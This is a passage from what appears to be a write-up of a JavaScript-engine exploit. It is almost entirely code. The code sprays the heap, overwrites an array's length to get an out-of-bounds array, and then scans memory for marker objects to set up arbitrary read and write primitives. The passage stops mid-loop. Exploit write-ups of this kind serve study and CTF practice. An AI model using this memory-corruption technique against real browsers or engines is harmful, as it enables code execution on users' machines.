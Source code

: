 ```js
    // Spraying the arr elements pointer to get OOB array.
    let size_search = 0x50;
    let n_size_search = 0x60;
    let arr_search = [];
    let tmparr = new Array(Math.floor(size_search)).fill(9.9);
    let placeholder_obj = [];
    let tmpMarkerArray =  new Array(n_size_search).fill({
      a: placeholder_obj, b: placeholder_obj, notamarker: 0x12341234, floatprop: 9.9
    });
    let tmpfarr= [...tmparr];
    let new_len = 0xffffff;

    for (let i = 0; i < 10000; i++) {
        arr_search.push([...tmpMarkerArray]);
        arr_search.push([...tmpfarr]);
    }
    if(arr[0] != push_obj){
        for(let i=0;i<0x100;i++){
            if(arr[i] == size_search && arr[i+12] == n_size_search){
                arr[i] = new_len;
                break;
            }
        }

        let OOB;
        for(let i=0;i<10000;i++){
            if(arr_search[i].length == new_len){
                OOB = arr_search[i];
                print("OOB array found in the spray");
                break;
            }
        }
```

Now that we have an OOB Array, We can get something much stabler to setup our `ARB read` and `ARB write` primitives. We try to find the location of the `local_findme` object with respect to the initial `OOB` array we have. We can get the offset `i` stored in `marker` for the same.
```js
        let objarr = [];
        for(let j=0;j<10000;j++){
            let local_findme = {
                a: placeholder_obj, b: placeholder_obj, findme: 0x11111111, floatprop: 1.337, findyou:0x12341234
            };
            objarr.push(local_findme);
            function gcing(){
                const r = new String("Hello GC?");
            }
            gcing();
        }

        let marker = -1;
        let leak_obj;
        for(let i=size_search;i<new_len;i++){
            ftoi(OOB[i]);                                   // Why is this here ? No idea.

            if(hex(ftoi(OOB[i])).includes("22222222")){
                
                let aux = new ArrayBuffer(8);
                let int_aux = new Uint32Array(aux);
                let float_aux = new Float64Array(aux);
                
                float_aux[0] = OOB[i];
                if(int_aux[0].toString(16) == "22222222"){
```
